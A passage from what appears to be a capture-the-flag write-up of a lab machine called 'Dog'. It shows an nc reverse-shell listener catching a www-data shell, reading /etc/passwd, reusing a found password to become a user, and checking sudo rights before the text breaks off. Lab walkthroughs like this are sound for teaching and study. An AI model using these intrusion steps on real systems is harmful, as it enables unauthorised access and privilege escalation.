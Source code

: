 Let's setup a listener for our reverse shell:

```bash
nc -lvnp 9001
```

When we follow the steps to upload the module we get a reverse shell on our listener:

```bash
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.14.158] from (UNKNOWN) [10.129.218.143] 53108
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dog:/var/www/html/modules/poc$ 
```

# User
We can find a couple users:

```bash
www-data@dog$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

When attempting to reuse the previously found password we find that it belongs to `johncusack`

```bash
www-data@dog$ su johncusack

Password: BackDropJ2024DS2024
whoami
johncusack
```

Let's ssh for a more stable shell:

```bash
ssh johncusack@dog.htb
```

Just like that we have User!
# Root

We can see that user `johncusack` can perform the following commands as root:

```bash
johncusack@dog$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
